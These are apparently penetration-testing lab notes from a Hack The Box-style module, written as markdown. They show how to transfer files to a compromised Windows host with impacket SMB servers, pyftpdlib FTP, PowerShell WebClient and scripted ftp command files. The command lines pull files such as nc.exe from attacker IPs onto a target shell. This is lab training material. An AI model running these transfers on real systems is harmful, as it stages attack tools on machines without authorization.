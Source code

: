  ## SMB Downloads

#### create an SMB server (Anonymous)

```
$ sudo impacket-smbserver share -smb2support /tmp/smbshare
```


to download a file from the SMB server to the current working directory, we can use the following command:

```
C:\ > copy \\192.168.220.133\share\nc.exe
```

#### Create the SMB Server with a Username and Password

```
$ sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

```
C:\htb> net use n: \\192.168.220.133\share /user:test test
```




## FTP Downloads


We can use the FTP client or PowerShell Net.WebClient to download files from an FTP server.

#### configure an FTP Server
```
$ sudo pip3 install pyftpdlib

```
pyftpdlib uses port 2121 by default . Anonymous authentication is enabled by default if we don't set a user and password.

```
$ sudo python3 -m pyftpdlib --port 21

PS > (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'ftp-file.txt')

```

#### Non interactive shell
When we get a shell on a remote machine, we may not have an interactive shell. If that's the case, we can create an FTP command file to download a file. First, we need to create a file containing the commands we want to execute and then use the FTP client to use that file to download that file.
```
    C:\htb> echo open 192.168.49.128 > ftpcommand.txt
    C:\htb> echo USER anonymous >> ftpcommand.txt
    C:\htb> echo binary >> ftpcommand.txt
    C:\htb> echo GET file.txt >> ftpcommand.txt
    C:\htb> echo bye >> ftpcommand.txt
    C:\htb> ftp -v -n -s:ftpcommand.txt
    ftp> open 192.168.49.128
    Log in with USER and PASS first.
    ftp> USER anonymous

    ftp> GET file.txt
    ftp> bye
```
            